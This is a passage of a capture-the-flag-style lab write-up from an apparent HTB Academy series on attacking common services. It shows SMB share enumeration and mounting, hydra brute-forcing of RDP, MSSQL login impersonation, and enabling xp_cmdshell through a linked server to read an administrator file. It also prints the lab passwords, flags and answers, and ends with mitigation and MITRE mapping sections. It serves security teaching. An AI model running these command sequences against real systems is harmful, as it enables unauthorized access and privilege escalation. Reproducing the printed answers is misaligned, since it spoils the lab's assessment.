Simon has read permissions to the share 'Home'.

Now, connecting normally to that share:
```bash
smbclient -U simon \\\\<target-IP>\\home
```


*_Figure 36.1 — Lab execution and output verification (Page 36)_*


*_Figure 36.2 — Lab execution and output verification (Page 36)_*


*_Figure 36.3 — Lab execution and output verification (Page 36)_*


### interface

There are numerous directories to search, it might be tedious with the smb CLI.

So instead we will mount the share to the pwnbox, for more convenient
interface:
mkdir imported_data

```bash
sudo mount -t cifs //<target-IP>/"home" imported_data -o
```
username=simon,password=liverpool


The share's was sucsessfully mounuted to 'imported_data' directory.

Lets look for all txt files within the directory:
```bash
find imported_data/ -type f -name *.txt 2>/dev/null
```


We can easily observe that Simon txt file is 'random.txt'.


*_Figure 37.1 — Lab execution and output verification (Page 37)_*


*_Figure 37.2 — Lab execution and output verification (Page 37)_*


*_Figure 37.3 — Lab execution and output verification (Page 37)_*


### Lets check its content

> **Lab Question (Page 38)**: Enumerate the target and find a password for the user Fiona. What is her password?
>
> **Flag / Answer**: `48Ns72!bns74@S84NNNSl`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

in the last screenshot in the previous question we can also see
'creds.txt' belonging to Fiona.
Lets check its content:
```bash
cat imported_data/IT/Fiona/creds.txt
```


There are several options. As we see the title 'Windows Creds', we will
bruteforce the RDP service appeared in the nmap results (port 3389), using the
obtained creds file as password wordlist:
```bash
hydra -l fiona -P imported_data/IT/Fiona/creds.txt
```
rdp://<target-IP>


The credentials are 'fiona:48Ns72!bns74@S84NNNSl'


*_Figure 38.1 — Lab execution and output verification (Page 38)_*


*_Figure 38.2 — Lab execution and output verification (Page 38)_*


> **Lab Question (Page 39)**: Once logged in, what other user can we compromise to gain admin privileges?
>
> **Flag / Answer**: `john`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

lets MSSQL login to fiona's user with the obtained credentials:
mssqlclient.py -p 1433 fiona@<target-IP> -windows-auth


We are in. in the mssql CLI, we run the the impersonate check command on
MSSQL, which gives us the list of users Fiona can impersonate:
SELECT distinct b.name FROM sys.server_permissions a INNER
JOIN sys.server_principals b ON a.grantor_principal_id =
b.principal_id WHERE a.permission_name = 'IMPERSONATE';


In addition to simon – we can also impersonate john.


*_Figure 39.1 — Lab execution and output verification (Page 39)_*


*_Figure 39.2 — Lab execution and output verification (Page 39)_*


### Lets use it and impersonate him

> **Lab Question (Page 40)**: Submit the contents of the flag.txt file on the Administrator Desktop.
>
> **Flag / Answer**: `HTB{46u$!n9_l!nk3d_$3rv3r$}`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

in the previous question we established we can impersonate john.
Lets use it and impersonate him:
EXECUTE AS LOGIN = 'john';


Now, going back the txt files extracted from the SMB server, one of them was
this file: 'imported_data/IT/John/information.txt'. lets read its content:
```bash
cat imported_data/IT/John/information.txt
```


The file's content indicates the existence of a local linked server.
Lets investigate it in the mssql john user CLI:
SELECT srvname, isremote FROM sysservers


*_Figure 40.1 — Lab execution and output verification (Page 40)_*


*_Figure 40.2 — Lab execution and output verification (Page 40)_*


*_Figure 40.3 — Lab execution and output verification (Page 40)_*


### We will run the sequence of mssql commands

There are 2 servers, the value '0' for 'isremote' indicates linked local server.
that would be 'LOCAL.TEST.LINKED.SRV'.

We can use the linked local server to bypass the restriction on execute
'xp_cmdshell' commands (which will not work normally, it will return no
permission).
We will run the sequence of mssql commands:
EXECUTE('EXEC sp_configure ''show advanced options'', 1;
RECONFIGURE;') AT [LOCAL.TEST.LINKED.SRV];

EXECUTE('EXEC sp_configure ''xp_cmdshell'', 1;
RECONFIGURE;') AT [LOCAL.TEST.LINKED.SRV];

EXECUTE('xp_cmdshell ''type
C:\Users\Administrator\Desktop\flag.txt''') AT
[LOCAL.TEST.LINKED.SRV];

Those commands basically execute the

Commands with the 'xp_cmdshell', but with the use of the local linked server in
order to bypass the restricaions, and execute cmd commands (note, they will
not work with fiona, as that user doesn't has the permissions to do so. It has to
be run with john user.
The command will enable the 'xp_cmdshell', and then use the 'xp_cmdshell' to
get the flag from the administrator's flag:


*_Figure 41.1 — Lab execution and output verification (Page 41)_*


*_Figure 41.2 — Lab execution and output verification (Page 41)_*


---

## Enterprise Defense & Mitigation Blueprint

To neutralize the attack vectors demonstrated throughout this module, security engineers and infrastructure administrators should implement layered defense-in-depth controls:

1. **Principle of Least Privilege (PoLP)**: Strictly segregate administrative rights, isolate service accounts into managed domains (gMSAs), and strip unnecessary capabilities (`CAP_SETUID`, `SeImpersonatePrivilege`).
2. **Input Validation & Parameterization**: Neutralize command injection, LFI, and parameter tampering at the source by utilizing strict type allowlists, parameterized ORMs, and secure input sanitization.
3. **Network Boundary Segmentation**: Isolate sensitive internal management ports (SSH, WinRM, SMB, RDP, SQL) behind bastion hosts and multi-factor VPN gateways with network-level microsegmentation.
4. **Telemetry & Threat Detection**: Forward audit logs (Sysmon, Windows Event Logs, Linux Auditd, Zeek) to a centralized SIEM with behavioral rules targeting anomalous process spawning (`cmd.exe` from `w3wp.exe`, unexpected SUID execution, or mass port probing).


---

## MITRE ATT&CK Mapping & Threat Matrix

| Security Domain | Mapping Specification |
| :--- | :--- |
| **Primary Tactic** | Enterprise Penetration Testing & Adversary Simulation |
| **Mitre Techniques** | `T1021.002, T1078, T1110` |
| **Common Weakness Enumerations** | `CWE-287, CWE-200` |

### Adversary Tradecraft & Technique Breakdown

| Technique ID | Technique Name | Tactic | Applied Offensive / Defensive Context |
| :--- | :--- | :--- | :--- |
| [`T1021.002`](https://attack.mitre.org/techniques/T1021/) | **Remote Services: SMB/Windows Admin Shares** | `Lateral Movement` | Enumerating and writing payloads to accessible SMB shares |
| [`T1078`](https://attack.mitre.org/techniques/T1078/) | **Valid Accounts** | `Initial Access / Persistence` | Authenticating with default or leaked credentials against SSH, FTP, MSSQL |
| [`T1110`](https://attack.mitre.org/techniques/T1110/) | **Brute Force** | `Credential Access` | Automated dictionary attacks against database and remote access protocols |


### Identified Common Weakness Enumerations (CWE)

- [`CWE-287`: Improper Authentication](https://cwe.mitre.org/data/definitions/287.html)
- [`CWE-200`: Information Exposure Through Misconfigured Service ACLs](https://cwe.mitre.org/data/definitions/200.html)


---

## Detection Engineering & Defensive Countermeasures

Modern enterprise security programs must implement proactive, layered defense-in-depth controls to detect and mitigate the techniques covered in this module:

- Centralize and alert on unauthorized SMB administrative share queries (`C$`, `ADMIN$`, `IPC$`) from unmanaged endpoints.
- Deploy network segmentation ensuring critical database ports (1433, 3306, 5432) and SSH (22) are non-routable from the public internet.
- Enforce key-based authentication on SSH and disable root SSH login (`PermitRootLogin no`).


---

## Authoritative References & Recommended Reading

- [HTB Academy: Attacking Common Services](https://academy.hackthebox.com/module/116) — *Official Hack The Box curriculum track*
- [HackTricks: Pentesting Services](https://book.hacktricks.xyz/network-services-pentesting) — *Complete protocol enumeration and attack cheat sheet*
- [Impacket Network Protocols Toolkit](https://github.com/fortra/impacket) — *Standard Python library for network protocol manipulation*
- [Nmap NSE Script Reference](https://nmap.org/nsedoc/) — *Official NSE scripts for service probing*


<div class="ff-series-nav">
  <a href="/posts/htb-academy-part-9-file-inclusion/" class="ff-nav-btn text-start">
    <div class="ff-nav-arrow"><i class="fas fa-arrow-left"></i></div>
    <div class="ff-nav-text">
      <span class="ff-nav-kicker">Previous Part</span>
      <span class="ff-nav-title">Part 9: File Inclusion (LFI/RFI) Exploitation & Defense</span>
    </div>
  </a>
  <div class="ff-nav-center">
    <span class="ff-center-badge"><i class="fas fa-cube"></i> HTB Academy Series</span>
    <span class="ff-center-part">Part 10 of 41</span>
  </div>
  <a href="/posts/htb-academy-part-11-attacking-common-applications/" class="ff-nav-btn text-end">
    <div class="ff-nav-text">
      <span class="ff-nav-kicker">Next Part</span>
      <span class="ff-nav-title">Part 11: Attacking Common Applications (Tomcat, Jenkins, Splunk)</span>
    </div>
    <div class="ff-nav-arrow"><i class="fas fa-arrow-right"></i></div>
  </a>
</div>
